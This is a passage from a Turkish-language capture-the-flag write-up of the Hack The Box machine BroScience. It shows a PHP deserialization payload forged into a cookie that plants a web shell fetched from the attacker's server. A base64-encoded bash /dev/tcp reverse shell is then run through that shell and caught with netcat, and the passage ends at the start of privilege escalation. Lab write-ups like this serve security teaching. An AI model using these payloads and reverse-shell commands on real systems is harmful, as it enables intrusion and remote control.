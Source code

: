 ```php
        $a->save($this->tmp);
    }
}
echo base64_encode(serialize(new AvatarInterface))."\n";

?>
```

php ile çalıştırdım ve çıktı aldım.

```bash
root@acivik:~/ctfs/BroScience-10.129.93.109# php seri2.php 
TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czoyOToiaHR0cDovLzEwLjEwLjE0LjU0L3BocGNtZC5waHAiO3M6NzoiaW1nUGF0aCI7czozMToiL3Zhci93d3cvaHRtbC9pbWFnZXMvcGhwY21kLnBocCI7fQ==
```

Bu değeri cookie değeri ile değiştireceğim.

```bash
root@acivik:~/ctfs/BroScience-10.129.93.109# python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.94.146 - - [09/Jan/2023 12:27:53] "GET /phpcmd.php HTTP/1.0" 200 -
10.129.94.146 - - [09/Jan/2023 12:27:53] "GET /phpcmd.php HTTP/1.0" 200 -
10.129.94.146 - - [09/Jan/2023 12:27:54] "GET /phpcmd.php HTTP/1.0" 200 -
```

Dosyayı aldığını görebilirim.

![https://i.ibb.co/3Tmqsk6/image.png](https://i.ibb.co/3Tmqsk6/image.png)

Reverse shell alacağım.

```bash
root@acivik:~/ctfs/BroScience-10.129.93.109# echo "bash -i &>/dev/tcp/10.10.14.54/9001 <&1" | base64 
YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjU0LzkwMDEgPCYxCg==

--> https://broscience.htb/images/phpcmd.php?cmd=echo "YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjU0LzkwMDEgPCYxCg==" | base64 -d | bash

root@acivik:~/ctfs/BroScience-10.129.93.109# nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.54] from (UNKNOWN) [10.129.94.146] 51776
bash: cannot set terminal process group (1234): Inappropriate ioctl for device
bash: no job control in this shell
www-data@broscience:/var/www/html/images$
```

# <span style="color:#AA0E1C"><b># Privilege Escalation: www-data → bill</b></span>

```bash
www-data@broscience:/var/www/html$ netstat -tnulp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```